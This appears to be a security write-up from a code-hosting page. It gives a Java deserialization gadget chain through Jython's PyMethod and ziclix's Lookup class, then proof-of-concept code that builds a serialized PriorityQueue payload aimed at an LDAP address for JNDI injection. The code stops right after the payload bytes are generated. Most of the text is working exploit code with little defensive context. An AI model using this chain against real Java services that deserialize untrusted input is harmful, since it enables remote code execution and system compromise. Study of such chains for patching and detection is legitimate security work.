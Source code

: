 ```plain
java.io.ObjectInputStream.readObject
    java.util.PriorityQueue.readObject
        java.util.PriorityQueue.heapify
            java.util.PriorityQueue.siftDownUsingComparator
                com.sun.proxy.$Proxy4.compare
                    org.python.core.PyMethod.invoke
                        org.python.core.PyMethod.__call__
                            org.python.core.PyMethod.instancemethod___call__
                                org.python.core.PyObject.__call__
                                    com.ziclix.python.sql.connect.Lookup.__call__
```

poc

```plain
package org.example;  

import org.python.core.PyMethod;  
import org.python.core.PyString;  
import sun.misc.Unsafe;  

import java.io.ByteArrayInputStream;  
import java.io.ByteArrayOutputStream;  
import java.io.ObjectInputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
import java.lang.reflect.Proxy;  
import java.util.Comparator;  
import java.util.PriorityQueue;  

public class Lookup {  
    public static void main(String[] args) throws Exception{  
        Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");  
        unsafeField.setAccessible(true);  
        Unsafe unsafe = (Unsafe) unsafeField.get(null);  

        PyMethod pyMethod = (PyMethod) unsafe.allocateInstance(PyMethod.class);  
        pyMethod.__func__ = new com.ziclix.python.sql.connect.Lookup();  
        pyMethod.im_class = new PyString().getType();  

        Comparator c = (Comparator) Proxy.newProxyInstance(  
                Lookup.class.getClassLoader(),  
                new Class[]{Comparator.class},  
                pyMethod  
        );  
        PriorityQueue priorityQueue = new PriorityQueue(2, c);  

        Object [] queue = new Object[]{  
                new PyString("ldap://127.0.0.1:1389"),  
                1  
        };

        Field f = priorityQueue.getClass().getDeclaredField("queue");  
        f.setAccessible(true);  
        f.set(priorityQueue, queue);  
        Field f2 = priorityQueue.getClass().getDeclaredField("size");  
        f2.setAccessible(true);  
        f2.set(priorityQueue, 2);  

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);  
        objectOutputStream.writeObject(priorityQueue);  

        byte[] bytes = byteArrayOutputStream.toByteArray();  
```